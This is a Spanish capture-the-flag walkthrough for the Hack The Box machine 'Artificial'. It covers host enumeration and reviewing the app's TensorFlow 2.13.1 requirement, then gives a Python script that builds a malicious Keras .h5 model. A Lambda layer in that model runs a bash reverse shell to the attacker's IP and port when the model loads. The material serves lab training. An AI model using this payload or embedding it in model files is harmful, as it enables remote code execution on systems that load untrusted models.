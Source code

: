 Veremos varias cosas interesantes, si entramos por el puerto `80` veremos que nos redirige a un dominio llamado `artificial.htb`, por lo que vamos añadirlo a nuestro archivo `hosts`.

```shell
nano /etc/hosts

#Dentro del nano
<IP>            artificial.htb
```

Lo guardamos y volvemos a entrar pero con dicho dominio de esta forma:

```
URL = http://artificial.htb/
```

Entrando dentro veremos una pagina normal, nada fuera de lo normal, por lo que vamos a realizar un poco de `fuzzing` a ver que vemos.

Si nos vamos a `Login` veremos que nos podremos `loguear` con un usuario, pero no tenemos nada registrado, por eso le daremos al link de abajo donde podremos crear una cuenta, meteremos la informacion correspondiente para nuestra cuenta y una vez registrados iniciaremos sesion con dichas credenciales, echo esto veremos lo siguiente:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-09-17 100233.png" alt=""><figcaption></figcaption></figure>

Vamos a descargarnos el `requirements` y el `Dockerfile` para ver como esta funcionando por dentro, ya que te estan dando los archivos para que sepas como funciona y eso puede ser una posible vulnerabilidad.

> requirements.txt

```
tensorflow-cpu==2.13.1
```

> Dockerfile

```
FROM python:3.8-slim WORKDIR /code RUN apt-get update && \ apt-get install -y curl && \ curl -k -LO https://files.pythonhosted.org/packages/65/ad/4e090ca3b4de53404df9d1247c8a371346737862cfe539e7516fd23149a4/tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl && \ rm -rf /var/lib/apt/lists/* RUN pip install ./tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl ENTRYPOINT ["/bin/bash"]
```

Por lo que vemos hay varias posibles vulnerabilidades, ya que la version de `tensorflow` es antigua y tiene vulnerabilidades, ya que podemos cargar un archivo de modelo `IA` con extension `.h5` podremos crearnos un script en `python3` y que nos genere dicho archivo con una `reverse shell`.

> exploit.py

```python
import tensorflow as tf

def exploit(x):
    import os
    os.system("bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```
